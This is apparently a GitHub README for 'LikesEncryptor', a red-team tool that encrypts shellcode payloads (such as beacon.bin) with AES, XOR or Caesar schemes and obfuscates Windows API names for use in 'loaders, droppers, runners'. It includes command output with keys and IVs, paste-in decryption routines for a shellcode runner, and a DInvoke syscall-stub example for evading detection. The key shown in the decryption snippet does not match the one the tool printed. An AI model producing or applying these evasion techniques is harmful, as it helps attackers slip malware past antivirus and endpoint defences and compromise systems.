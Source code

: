 # LikesEncryptor

Various obfuscation and decryption functionality for loaders, droppers, runners.

## Usage

```
LikesEncryptor 1.0.0.1
Copyright c  2021

  -i, --input       Required. Input file to be processed (e.g. beacon.bin).

  -m, --mode        Required. Encryption/encoding mode (aesCs,caesarCs,caesarVba,xorCs,xorCsString)

  -r, --resource    (Default: false) Output as an embeded resource file (default is copy and paste code)

  --help            Display this help screen.

  --version         Display version information
```

## Examples

### C# AES Bin Payload

The following example encrypts the bin file using AES and stores the output in a text file. The text file can be added as a resource to a runner. Remove the `-r` flag to output the encrypted blob to the console for copy and paste. 

```
PS> .\LikesEncryptor.exe -m aesCs -r -i .\beacon.bin
[>] Initializing...
[>] Mode: aesCs
[>] Input mode: bin
[>] Reading bytes from: .\beacon.bin
[>] Bytes read: 1024
[>] Output file: security.txt
[>] Copy & paste into shellcode runner
-----
byte[] iv = new byte[16] {0x30, 0xb1, 0xfb, 0x8a, 0xf8, 0xf5, 0x22, 0x41, 0x6a, 0xf1, 0xeb, 0xda, 0x29, 0xd7, 0x98, 0xb5};
byte[] key = new byte[32] {0xc1, 0x00, 0xb7, 0x66, 0x82, 0x6a, 0xe1, 0x84, 0x89, 0x50, 0xe9, 0xae, 0xd5, 0xa8, 0xf2, 0x57, 0x62, 0x90, 0x20, 0xb2, 0x57, 0xa9, 0xa9, 0xa5, 0x79, 0x18, 0x01, 0x70, 0x59, 0xfb, 0x4f, 0x37};
-----
[>] Thanks to @xct_de
```

An example decryption routine can be found in the [DecryptAesCsharpBytes.cs](./LikesEncryptor/Templates/DecryptAesCsharpBytes.cs) template. Copy the `iv` and `key` strings into the runner and decrypt:

```
static void Main(string[] args)
{
    [...]
    byte[] iv = new byte[16] { 0x30, 0xb1, 0xfb, 0x8a, 0xf8, 0xf5, 0x22, 0x41, 0x6a, 0xf1, 0xeb, 0xda, 0x29, 0xd7, 0x98, 0xb5 };
    byte[] key = new byte[32] { 0xe6, 0xd6, 0x69, 0x4e, 0x5b, 0x01, 0xd2, 0xb0, 0xf8, 0x43, 0xe0, 0x3f, 0xd9, 0xc8, 0x6f, 0x9c, 0x2a, 0x04, 0x50, 0x42, 0x65, 0x3b, 0xdb, 0xcb, 0x12, 0x92, 0xd8, 0xa6, 0x0a, 0x0d, 0x2d, 0x44 };

    byte[] buf = Decrypt(encrypted, key, iv);
    [...]
}
```

### C# XOR String

Perform string obfuscation:

```
PS> .\LikesEncryptor.exe -m xorCsString -i NtAllocateVirtualMemory
[>] Initializing...
[>] Mode: xorCsString
[>] Input mode: string
[>] Encrypting string: NtAllocateVirtualMemory
[>] encrypting 1 entries
[>] key: 0x45, 0x59, 0x54, 0x38, 0x4a, 0x64, 0x71, 0x57, 0x57, 0x70, 0x4a, 0x70, 0x49, 0x47, 0x43, 0x52, 0x31, 0x34, 0x33, 0x46, 0x77, 0x6a, 0x45, 0x41, 0x63, 0x58, 0x47, 0x4c
[>] exec stub:

//  NtAllocateVirtualMemory
LikesEvasion.Evade.Deflate(LikesEvasion.Evade.FromHex("0b2d1554260b123623151c193b3336335d79562b18183c"),LikesEvasion.Evade.FromHex("455954384a64715757704a704947435231343346776a45416358474c"));
```

Next, add the decryption routine to a program. An example decryption routine can be found in the [DecryptXorCsharpString.cs](./LikesEncryptor/Templates/DecryptXorCsharpString.cs) template. Example decryption:

```
static void Main(string[] args)
{
    Console.WriteLine(LikesEvasion.Evade.Deflate(LikesEvasion.Evade.FromHex("0b2d1554260b123623151c193b3336335d79562b18183c"), LikesEvasion.Evade.FromHex("455954384a64715757704a704947435231343346776a45416358474c")));
    
}
```

PoC output:

```
PS> .\PocXorStub.exe
NtAllocateVirtualMemory
```

Usage with DInvoke example:

```
static void Main(string[] args)
{
    [...]
    IntPtr syscall = DInvoke.DynamicInvoke.Generic.GetSyscallStub(LikesEvasion.Evade.Deflate(LikesEvasion.Evade.FromHex("0b2d1554260b123623151c193b3336335d79562b18183c"), LikesEvasion.Evade.FromHex("455954384a64715757704a704947435231343346776a45416358474c")));
    DInvoke.DynamicInvoke.Native.DELEGATES.NtAllocateVirtualMemory syscallAllocateVirtualMemory = (DInvoke.DynamicInvoke.Native.DELEGATES.NtAllocateVirtualMemory)Marshal.GetDelegateForFunctionPointer(syscall, typeof(DInvoke.DynamicInvoke.Native.DELEGATES.NtAllocateVirtualMemory));
    [...]
}
```